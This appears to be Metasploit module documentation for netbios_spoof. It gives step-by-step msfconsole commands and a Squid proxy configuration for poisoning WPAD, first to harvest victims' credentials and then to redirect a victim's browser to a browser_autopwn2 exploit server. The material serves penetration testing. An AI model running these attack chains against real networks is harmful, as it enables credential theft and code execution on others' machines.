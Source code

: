 netbios_spoof continuously spams NetBIOS responses to a target for given hostname, causing the
target to cache a malicious address for this name. By default, the module will attempt to poison
WPAD, forcing the target system to communicate with a fake server that can be leveraged to steal
sensitive information, or obtain arbitrary code execution.

## Vulnerable Application

Windows is the most ideal target because it supports WPAD by default.

## Options

**NBADDR**

The address that the NetBIOS name (NBNAME) should resolve to.

**NBNAME**

The NetBIOS name to spoof a reply for.

**PPSRATE**

The rate at which to send NetBIOS replies.

## Scenarios

**Credential Collection Attack Using Targeted NetBIOS Spoofing:**

The following example uses http_basic, but other modules (such as http_ntlm) also applies.

Step 1: Start the first Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/capture/http_basic```
3. ```set REALM google.com```
4. ```set URIPATH /```
5. ```run```

Step 2: Start the second Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/admin/netbios/netbios_spoof```
3. ```set NBADDR [IP to fake HTTP auth server]```
4. ```set PPSRATE 30000```
5. ```set RHOST [Target Host]```
6. ```run```

Step 3: On the victim machine:

1. Make sure IE automatically detects settings (under LAN settings)
2. Start IE, as soon as it opens, IE should try to authenticate.

If the spoofed name has already been cached, you can do this to flush. And then next time IE will
be asked for credentials again.

```
ipconfig /flushdns
```

**Arbitrary Code Execution Using Targeted NetBIOS Spoofing:**

The following example will spoof WPAD and causes google.com to redirect to an exploit server.

Step 1: Start the first Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/browser_autopwn2```
3. ```set SRVPORT 8181```
4. ```run```

Remember the BrowserAutoPwn URL, you will need this info for the proxy configuration file.

Step 2: Install [Squid](http://www.squid-cache.org/) Proxy server (or [SquidMan](http://squidman.net/squidman/) if you use OS X), and edit the configuration file:

First, uncomment these settings if they are found in the file:

* http_access deny all
* http_access deny !Safe_ports
* http_access deny CONNECT !SSL_ports
* http_access deny to_localhost
* http_access deny all
* always_direct deny all

Second, add the following (make sure the change MyNetwork setting, and update the BrowserAutoPwn
URL field:

```
acl MyNetwork src 192.168.1.0/24
acl BLKSite dstdomain .google.com
deny_info [BrowserAutoPwn URL] all
http_reply_access deny BLKSite all
http_access allow MyNetwork
```

Step 3: Start the second Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/wpad```
3. ```set PROXY [Proxy IP]```
4. ```set PROXYPORT 8080```
5. ```run```

Step 4: Start the third Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/admin/netbios/netbios_spoof```
3. ```set NBADDR [IP to fake HTTP server]```
4. ```set PPSRATE 30000```
5. ```set RHOST [Target Host]```
6. ```run```

Step 5: On the victim machine:

1. Make sure IE automatically detects settings (under LAN settings)
2. Start IE
3. Go to google.com, IE should end up loading the exploit server.

If the spoofed name has already been cached, you can do this to flush.

```
ipconfig /flushdns
```


